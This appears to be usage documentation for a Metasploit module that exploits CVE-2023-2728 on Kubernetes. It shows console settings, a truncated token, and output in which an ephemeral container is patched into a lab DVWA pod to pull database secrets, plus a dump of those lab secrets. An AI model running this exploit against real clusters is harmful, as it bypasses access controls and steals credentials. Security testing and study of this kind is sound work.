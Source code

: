 ```
DVWA_MYSQL_SERVICE_PORT_3306_TCP=tcp://10.99.148.252:3306
** SECRET ** ROOT_PASSWORD=dvwa ** SECRET **
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
** SECRET ** DVWA_DATABASE=dvwa ** SECRET **
** SECRET ** DVWA_USERNAME=dvwa ** SECRET **
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
PWD=/
[*] WebSocket connection closed: 1000, 
[*] Auxiliary module execution completed
```
### Run it with ephemeral containers to exploit the CVE-2023-2728
Explicitly setting CVE, RHOST and TOKEN to enumerate the secrets specified in the SECRET_NAME option:
```
msf6 > use cloud/kubernetes/double_secrets_cve
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set CVE 2023-2728
CVE => 2023-2728
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set CONTAINER_TYPE ephemeral
CONTAINER_TYPE => ephemeral
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RHOSTS 192.168.49.2
RHOSTS => 192.168.49.2
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RPORT 8443
RPORT => 8443
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SECRET_NAME dvwa-secrets
SECRET_NAME => dvwa-secrets
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set NAMESPACE dvwa-tfm-mysql
NAMESPACE => dvwa-tfm-mysql
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set POD_NAME cve-pod-4
POD_NAME => cve-pod-4
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > run
[*] Running module against 192.168.49.2

[*] Fetching Kubernetes server version...
[+] Kubernetes server version: v1.27.2
[+] The kube-apiserver version v1.27.2 is vulnerable to the selected CVE.
[*] Creating pod with standard configuration in namespace: dvwa-tfm-mysql with service account: sa-web
[*] Pod not found. Proceeding with pod creation.
[+] Successfully created pod cve-pod-4 in namespace dvwa-tfm-mysql
[*] Waiting for pod cve-pod-4 to be ready...
[*] Pod cve-pod-4 status: Pending
[+] Pod cve-pod-4 is running.
[*] Attempting to add ephemeral container to access secrets...
[*] Performing PATCH request with the following data: {"spec":{"ephemeralContainers":[{"name":"ephemeral-container","image":"busybox","command":["/bin/sh"],"args":["-c","sleep 3600"],"env":[{"name":"DVWA_DATABASE","valueFrom":{"secretKeyRef":{"name":"dvwa-secrets","key":"DVWA_DATABASE"}}},{"name":"DVWA_PASSWORD","valueFrom":{"secretKeyRef":{"name":"dvwa-secrets","key":"DVWA_PASSWORD"}}},{"name":"DVWA_USERNAME","valueFrom":{"secretKeyRef":{"name":"dvwa-secrets","key":"DVWA_USERNAME"}}},{"name":"ROOT_PASSWORD","valueFrom":{"secretKeyRef":{"name":"dvwa-secrets","key":"ROOT_PASSWORD"}}}]}]}}
[+] Response received
[+] Ephemeral container successfully added to pod cve-pod-4
```